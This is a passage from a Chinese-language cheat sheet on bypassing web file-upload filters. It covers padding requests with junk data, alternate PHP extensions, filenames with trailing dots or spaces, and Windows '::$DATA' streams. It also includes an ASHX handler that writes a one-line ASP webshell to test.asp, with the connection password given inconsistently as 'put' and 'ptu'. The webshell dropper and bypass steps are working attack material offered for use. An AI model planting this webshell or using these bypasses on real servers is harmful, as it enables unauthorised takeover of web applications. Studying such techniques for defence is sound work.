 #### 垃圾数据填充绕过

```
修改HTTP请求，再之中加入大量垃圾数据。
```

### 黑名单后缀绕过

#### 文件扩展名绕过

```
Php除了可以解析php后缀 还可以解析php2.php3，php4 后缀
```

#### ashx 上传绕过

```
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {
    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";
        //这里会在目录下生成一个test.asp的文件
        StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
        //这里是写入一句话木马   密码是：ptu
        file1.Write("<%response.clear:execute request("put"):response.End%>");
        file1.Flush();
        file1.Close();       
    }
    public bool IsReusable {
        get {
            return false;
        }
    }
}

```

#### 特殊文件名绕过

```
比如发送的 http包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式
在windows系统里是不被允许的，所以需要在 burp之类里进行修改，然后绕过验证后，会
被windows系统自动去掉后面的点和空格，但要注意Unix/Linux系统没有这个特性。

```

#### Windows 流特性绕过

```
php在windows的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。
```
